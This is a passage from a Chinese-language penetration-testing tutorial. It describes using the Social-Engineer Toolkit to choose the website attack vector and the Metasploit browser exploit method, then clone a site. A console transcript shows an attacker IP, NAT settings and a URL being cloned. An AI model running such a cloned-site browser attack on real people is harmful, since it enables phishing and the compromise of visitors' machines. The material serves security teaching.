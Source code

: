 1.  现在我们将选择网站攻击向量，即 2，然后看起来如下：![操作步骤...](img/image_08_011.jpg)

1.  现在我们将选择“Metasploit 浏览器利用方法”选项 2：![操作步骤...](img/image_08_012.jpg)

1.  之后，我们将克隆该网站并填写必要的信息：

```
      set:webattack>2
      [-] NAT/Port Forwarding can be used in the cases where your SET       machine is
      [-] not externally exposed and may be a different IP address       than your reverse listener.
      set> Are you using NAT/Port Forwarding [yes|no]: yes
      set:webattack> IP address to SET web server (this could be your        external IP or hostname):192.168.157.157
      set:webattack> Is your payload handler (metasploit) on a       different IP from your external NAT/Port FWD address [yes|no]:no
      [-] SET supports both HTTP and HTTPS
      [-] Example: http://www.thisisafakesite.com
      set:webattack> Enter the url to clone:http://security-geek.in

```
